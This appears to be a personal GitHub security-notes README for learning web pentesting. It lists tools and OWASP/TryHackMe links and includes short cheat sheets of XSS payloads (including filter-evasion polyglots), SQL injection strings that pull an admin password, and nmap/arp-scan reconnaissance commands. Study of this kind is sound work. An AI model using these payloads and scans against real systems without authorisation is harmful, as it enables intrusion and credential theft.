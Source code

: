 # Security

## Tools

[Base64 Decode](https://www.base64decode.org/) - Decode or encode base64.      
[Wappalyze](https://www.wappalyzer.com/) - Find out the technology stack of a website.  
[SecLists](https://github.com/danielmiessler/SecLists) - A collection of lists used during security assessments.     
[Sublist3r](https://github.com/aboul3la/Sublist3r) - Collects and gathers subdomains for a target domain.    
[fuff](https://github.com/ffuf/ffuf) - Web fuzzer.    
[Wfuzz](https://github.com/xmendez/wfuzz) - Web fuzzer.    
[XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter) - Performs Blind XSS attacks and captures cookies, URLs, page contents.   
[XSStrike](https://github.com/s0md3v/XSStrike) - A Cross Site Scripting detection suite.      
[Burp Suite](https://portswigger.net/burp) - A tool for performing security testing of web applications.       
[FoxyProxy](https://addons.mozilla.org/en-GB/firefox/addon/foxyproxy-basic/) - Proxy management browser extension.    
[CloudSploit](https://github.com/aquasecurity/cloudsploit) - Detects security risks in cloud infrastructure accounts.     
[DNSDumpster](https://dnsdumpster.com/) - A research tool that can discover hosts related to a domain.     
[Nmap](https://nmap.org/) - Discovers hosts and services on a computer network.     
[arp-scan](https://github.com/royhills/arp-scan) - Uses the ARP protocol to discover and fingerprint IP hosts on the local network.    


## Reading

[OWASP Top 10](https://owasp.org/Top10/)     
[OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)      
[Postgres SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)    
[Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)     
[Bug Bounty Cheatsheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)     
[Command Injection Payload List](https://github.com/payloadbox/command-injection-payload-list)     

## Videos

[A Starters Guide to Pentesting with OWASP](https://www.youtube.com/watch?v=AO_sqXb-gKE)     

## Frameworks

A set of guidelines and best practices to help organizations build and improve their cybersecurity. Frameworks are a blueprint for managing risk and reducing vulnerabilities.

[OWASP](https://owasp.org/)    
[NCSC CAF](https://www.ncsc.gov.uk/collection/caf/caf-principles-and-guidance)    
[NIST](https://www.nist.gov/cyberframework)    

## Notes

### Google Hacking

[Google Hacking](https://en.wikipedia.org/wiki/Google_hacking) is a technique that uses Google Search and other Google applications to find security holes.

| Filter  | Example | 
| ------------- | ------------- | 
| site  | site:example.com  | 
| filetype  | filetype:csv  | 
| inurl  | inurl:admin  | 
| intitle  | intitle:admin  | 

**Example:** "-site:www.example.com site:*.example.com" would only contain results leading to the domain name example.com but exclude any links to www.example.com.

### Cross-site Scripting (XSS)

[OWASP XSS Overview](https://owasp.org/www-community/attacks/xss/)      
[THM XSS Room](https://tryhackme.com/room/xssgi)

```
<script>alert('XSS');</script>    
"><script>alert('XSS');</script>    
</textarea><script>alert('XSS');</script>    
';alert('XSS');//    
<sscriptcript>alert('XSS');</sscriptcript>    
/images/cat.jpg" onload="alert('XSS');    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
<iframe src=\"javascript:alert(XSS)\">    
<iframe src="javascript:alert(`XSS`)">    
```

### SQL Injection

[OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)     
[W3Schools SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)      
[THM SQL Injection](https://tryhackme.com/room/sqlinjectionlm)      
[OWASP Testing PostgreSQL](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.4-Testing_PostgreSQL)

- Inband: data is extracted using the same channel that is used to inject the SQL code. This is the most straightforward kind of attack, in which the retrieved data is presented directly in the application web page.
- Out-of-band: data is retrieved using a different channel (e.g., an email with the results of the query is generated and sent to the tester).
- Inferential or Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.

```
;
'
' OR 1=1;--
1 UNION SELECT 1,2
%00' UNION SELECT password FROM Users WHERE username='admin'--
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
UNION ALL SELECT user,NULL,NULL--
```

### Burp Suite

[THM Burp Suite Basics](https://tryhackme.com/room/burpsuitebasics)         

Set up browser proxy and certificate. Turn intercept on and in proxy options configure rules - "Or Request Was Intercepted", "And URL Is in target scope". Send to repeater or send to intruder.

- Browser hanging - Turn off Intercept.      
- Can't intercept - Update Scope.

### Network

Return all the IPv4 addresses: ```nslookup -type=A example.com 0.0.0.0```     
Email servers and configurations for a particular domain: ```nslookup -type=MX example.com```     

```
whois example.com
nslookup example.com     
nmap -sL -n 0.0.0.0/0.     
nmap -PR -sn 0.0.0.0/24     
nmap -PE -sn 0.0.0.0/24     
nmap -PP -sn 0.0.0.0/24     
nmap -PM -sn 0.0.0.0/24.    
nmap -PS -sn 0.0.0.0/24      
sudo nmap -PA -sn MACHINE_IP/24
arp-scan -l     

```




